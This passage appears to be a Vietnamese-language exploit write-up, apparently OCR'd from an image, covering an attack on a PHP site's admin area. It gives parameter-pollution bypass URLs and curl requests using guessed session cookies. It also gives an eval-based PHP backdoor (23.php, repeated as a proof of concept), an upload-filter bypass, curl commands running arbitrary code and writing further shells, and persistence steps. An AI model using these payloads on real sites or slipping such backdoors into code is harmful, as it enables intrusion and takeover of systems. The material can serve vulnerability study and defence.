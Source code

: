    #### **Vector F: Parameter Pollution**
   ```bash
   # Bypass qua parameter manipulation
   http://target.com/admin/index.php?authenticated=1&p=seo-co-ban
   http://target.com/admin/index.php?admin=true&p=seo-co-ban
   http://target.com/admin/index.php?role=administrator&p=seo-co-ban
   http://target.com/admin/index.php?isAdmin=1&p=seo-co-ban
   ```

   #### **Vector G: Weak Session Management**
   ```bash
   # Predictable session IDs
   curl -H "Cookie: PHPSESSID=123456789" "http://target.com/admin/"
   
   # Session không expire
   curl -H "Cookie: old_admin_session" "http://target.com/admin/"
   ```

   #### **Kết quả:** Truy cập thành công `/admin/index.php?p=seo-co-ban`

3. **📤 Upload File Độc Hại**
   ```php
   // Tạo backdoor: 23.php
   <?php
   $a = array($_REQUEST["x"] => "3");
   $b = array_keys($a)[0]; 
   eval($b);
   ```

4. **🔓 Bypass Xác Thực**
   - Upload qua form "Upload file xác nhận"
   - Lỗi cú pháp `=` bypass kiểm tra type
   - File được lưu vào `../sources/23.php`

5. **💀 Thực Thi Mã**
   ```bash
   # Thực thi PHP tùy ý
   curl "http://target.com/sources/23.php?x=phpinfo()"
   curl "http://target.com/sources/23.php?x=file_put_contents('shell.php', \$shell_code)"
   ```

6. **🏗️ Duy Trì Truy Cập**
   - Upload shell thứ hai vào `uploads/files/666.php`
   - Chỉnh sửa file hệ thống để duy trì truy cập

## 🛠️ Bằng Chứng Khái Niệm (PoC)

### 1. Tạo File Backdoor
```php
<?php
// File: malicious.php
$a = array($_REQUEST["x"] => "3");
$b = array_keys($a)[0]; 
eval($b);
?>
```
